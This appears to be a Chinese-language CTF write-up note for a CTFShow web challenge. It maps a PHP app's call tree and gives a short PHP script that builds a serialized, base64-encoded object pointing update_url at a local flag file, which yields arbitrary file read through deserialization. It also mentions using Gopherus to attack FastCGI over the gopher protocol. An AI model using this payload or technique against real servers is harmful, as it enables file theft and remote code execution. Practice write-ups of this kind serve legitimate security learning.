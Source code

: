 tags:: CTFWEB/伪协议, CTFWEB/RCE, CTFWEB/PHP/CGI

- Gopher 伪协议 [[CTFWEB/伪协议]]打FastCGI
- # 反序列化
	- 和 [[CTFWEB/WP/CTFShow/web308]]相同
	- if判断
	  id:: 62f26cf6-b9b3-4ba5-84e2-d33a5f32a1aa
		- 无
		  id:: 62f26d4c-0663-4721-bc9f-e2adce779080
	- checkVersion
	  id:: 62f26d07-e020-4ced-8d78-5e245c9a8a05
		- dao
		  id:: 62f26d50-b479-482a-b6a5-89c08030c427
			- fun: checkUpdate: ^^伪协议任意文件读取^^
			  id:: 62f26d5d-8540-4858-aa4e-9ae280c07115
	- addDpt
	  id:: 62f26d0d-3bc7-406a-a971-589573f91a09
		- service
		  id:: 62f26d98-d251-40e2-bc00-4bbcccdaf22a
			- insert_dbt
			  id:: 62f26da0-82b2-4613-a2e6-3166d7b66313
				- dao: 普通SQL，无法注入
				  id:: 62f26da5-2a83-4deb-b066-fb31e536bcc9
	- getAllDbt
	  id:: 62f26d1e-a3b3-451b-bfbe-5033b233f0b0
		- service
		  id:: 62f26db2-34c5-4c97-9a90-6ef81cdf928d
			- get_dpt_all
			  id:: 62f26dc5-059c-42c1-9bd3-fc5bddbd1ebd
				- dao: 普通SQL，无法注入
				  id:: 62f26dd1-3108-47b8-ba9a-4637ade9e12b
	- clearCache
	  id:: 62f26d28-5fce-4e10-8318-0f9191e92c26
		- service: 调用dao: clearCache
		  id:: 62f26d36-3b6c-4504-afbb-d2259dce463a
		- dao: shell_exec，但是只能有数字和换行
		  id:: 62f26e00-a110-4827-b830-8bb0308a9012
- 利用，和web308相同
- ```php
  <?php
  class dao{
  	private $config;
  	private $conn;
  	function set_config($config) {
  		$this -> config = $config;
  	}
  }
  
  class config{
  	private $mysql_username='root';
  	private $mysql_password='';
  	private $mysql_db='sds';
  	private $mysql_port=3306;
  	private $mysql_host='localhost';
  	public $cache_dir = 'cache';
  	public $update_url = 'file:///var/www/html/flag.php';
  }
  
  $c = new config();
  $d = new dao();
  $d -> set_config($c);
  echo urlencode(base64_encode(serialize($d)));
  ?>
  ```
-
- # Gopher打SSTI
- 用Gopherus生成Payload
- 需要一个存在的文件，填写`/var/www/html/index.php`
-
-
-